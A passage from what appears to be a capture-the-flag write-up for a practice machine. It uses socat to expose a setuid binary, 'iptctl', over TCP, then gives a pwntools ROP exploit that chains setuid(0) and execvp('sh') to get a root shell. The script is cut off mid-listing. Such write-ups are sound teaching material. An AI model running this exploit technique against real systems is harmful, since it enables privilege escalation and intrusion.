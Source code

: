 

I'll make use of `setuid` as well.

#### Interaction

It can sometimes be a pain to interact with a binary like `iptctl` that
is sending prompts and looking for input on stdin. I could use
`pwntools`, but that won't be installed on the target system. But socat
is on the target system. So I'll use `socat` to listen on a socket and
have that interact with the program. Then, I can connect from my host
and use `pwntools` to get a shell.

`socat` [takes two multidirectional byte streams and connects
them](https://linux.die.net/man/1/socat). The two parameters are the two
streams, like this:



    socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"



This defines the first stream as listening on TCP 9001. The second
stream is the program running in interactive mode.

Now I can set the target of my exploit to 10.10.10.113:9001, and run it.

#### Exploit

All of that adds up to:



      1 #!/usr/bin/env python
      2 # on redcross setup iptctl with socat listening on 9001
      3 # socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"
      4 
      5 from pwn import *
      6 
      7 
      8 # addresses
      9 execvp  = p64(0x400760) # execve plt
     10 setuid  = p64(0x400780) # setuid plt
     11 pop_rdi = p64(0x400de3) # pop rdi; ret
     12 pop_rsi = p64(0x400de1) # pop rsi; pop r15; retd
     13 sh_str  = p64(0x40046e) # "sh"
     14 
     15 #setup payload
     16 payload = "allow" +("A"*29)
     17 
     18 # setuid(0)
     19 payload += pop_rdi
     20 payload += p64(0)
     21 payload += setuid
     22 
     23 # execvp("sh", 0)
     24 payload += pop_rdi
     25 payload += sh_str
     26 payload += pop_rsi
     27 payload += p64(0)
     28 payload += p64(0)
     29 payload += execvp
     30 
     31 payload += "\n7.8.8.9\n"
     32 
     33 log.info("Attempting to connect")
     34 try:
     35     p = remote("10.10.10.113",9001)
     36 except pwnlib.exception.PwnlibException: